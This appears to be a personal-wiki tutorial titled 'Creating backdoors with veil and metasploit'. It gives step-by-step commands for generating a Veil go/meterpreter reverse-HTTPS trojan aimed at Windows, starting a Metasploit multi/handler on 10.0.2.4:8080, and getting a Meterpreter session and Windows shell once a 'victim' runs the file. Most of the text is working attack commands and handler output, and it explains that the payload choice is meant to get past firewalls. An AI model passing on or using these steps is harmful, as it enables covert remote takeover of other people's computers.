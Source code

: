 -----

* title: Creating backdoors with veil and metasploit
* description: This article is dedicated to Veil framework.
* created: 23-07-2021 16:14:00
* modified: 23-07-2021 16:14:00
* keywords: gnu, linux, admin, network, security, hacking, backdoor, exploit
* lang: en

-----

# Introduction

# An example

Start veil as root user.

Use the Evasion tool:

    use 1

List the available payloads:

    list

This shows a list (41 items) of different payloads. In this case we want to 
create a reverse https connection. So that the infected machine will start 
the connection itself and which will then probably not blocked by the 
firewall or router. As the victim will probably have a local ip address.

The other important point, as we will use metasploit, we need to find a 
payload containing the word `meterpreter`, as they are the same authors as 
metasploit. For example payload 15.

    15)     go/meterpreter/rev_https.py

Select the desired payload:

    use 15

Set the desired options:

    set LHOST 10.0.2.4
    set LPORT 8080

Finally, generate the backdoor:

    generate

Give a name to the output file:

    go_rev_https_8080

You get some information to where the output is generated. Which is:

    /var/lib/veil/output/compiled/

So now, in a console start the Metasploit Framework with `msfconsole`.

    use exploit/multi/handler

See the available options we can/need to set

    show options

Set the required options

    set LHOST 10.0.2.4
    set LPORT 8080

We need to select the same payload as we used to create the Trojan backdoor. 
But we can list all available payloads with `show payloads`. Which will 
return a list of `549` entries.

Set the payload:

    set PAYLOAD windows/meterpreter/reverse_https

Verify the options now and if needed, adjust them like we did before:

    show options

Now it's time to launch the exploit:

    exploit

You will see that the interpreter looks like this now:

    msf6 exploit(multi/handler) > exploit
    
    [*] Started HTTPS reverse handler on https://10.0.2.4:8080

It is now waiting that the victim runs the backdoor Trojan.

So on a Windows machine launch one of the created reverse HTTPS backdoor.

Once this happens, you will see that you are connected.

    [!] https://10.0.2.4:8080 handling request from 10.0.2.5; (UUID: n9stxefm) Without a database connected that payload UUID tracking will not work!
    [*] https://10.0.2.4:8080 handling request from 10.0.2.5; (UUID: n9stxefm) Staging x86 payload (176220 bytes) ...
    [!] https://10.0.2.4:8080 handling request from 10.0.2.5; (UUID: n9stxefm) Without a database connected that payload UUID tracking will not work!
    [*] Meterpreter session 1 opened (10.0.2.4:8080 -> 127.0.0.1) at 2021-07-24 17:45:32 +0200
    
    meterpreter >

You can get system information with:

    sysinfo

And you can run other metasploit shell commands  But at this point 
your still not really on the Windows shell. 

To get the Windows shell, type

    shell

Now you have full access on the victims computer through the Windows shell
